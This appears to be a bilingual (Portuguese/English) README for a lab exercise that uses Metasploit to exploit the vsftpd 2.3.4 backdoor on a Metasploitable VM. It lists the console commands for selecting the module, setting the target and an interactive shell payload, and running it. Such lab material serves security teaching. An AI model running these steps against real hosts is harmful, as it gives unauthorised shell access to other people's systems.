





# Explorando a ferramenta 'metasploit' do Kali Linux | Vulnerabilidade FTP

## Ferramentas utilizadas:
> Máquina virtual Metasploitable Linux  
> Ferramenta Metasploit

###

[PT-BR]  

1. Altere para o usuário root e digite o comando 'msfconsole' no terminal;  

  

  
2. Use `>search "vsftpd"` para buscar por exploits do "vsftpd";
3. Use `>info exploit/unix/ftp/vsftpd_234_backdoor` para obter mais informações sobre esse exploit;
4. Use `>use exploit/unix/ftp/vsftpd_234_backdoor` para utilizar esse exploit;  

  

5. Insira o comando `>show options` para mostrar a configuração do exploit;
6. Configure o IP da máquina Metasploitable em: `>set rhosts (endereço IP)`;
7. Insira o comando `>show options` para mostrar as novas configurações do exploit;  

  

9. Use `>set payload/cmd/unix/interact` para definir o payload para o exploit;
10. Use `>exploit` para executar o exploit.  

  

### Exemplo de resultados:  

  

# Exploring the Kali Linux 'metasploit' tool | FTP Vulnerability

## Tools used:
> Metasploitable Linux VM  
> Metasploit tool

###

[EN-US]
1. Switch to the root user and enter the 'msfconsole' command in the terminal;
2. Use <code>>search "vsftdpd"</code> to search for "vsftpd" exploit;
3. Use <code>>info exploit/unix/ftp/vsftpd_234_backdoor</code> for more info about this exploit;
4. Use <code>>use exploit/unix/ftp/vsftpd_234_backdoor</code> to use this exploit;
5. Insert <code>>show options</code> command to show the exploit configuration;
6. Set the metasploitable machine IP in: <code>>set rhosts (ipaddress)</code>;
7. Insert <code>>show options</code> command to show the new exploit configs;
8. Use <code>>set payload/cmd/unix/interact</code> to set the payload for the exploit;
9. Use <code>>exploit</code> to execute the exploit.

### Results example:

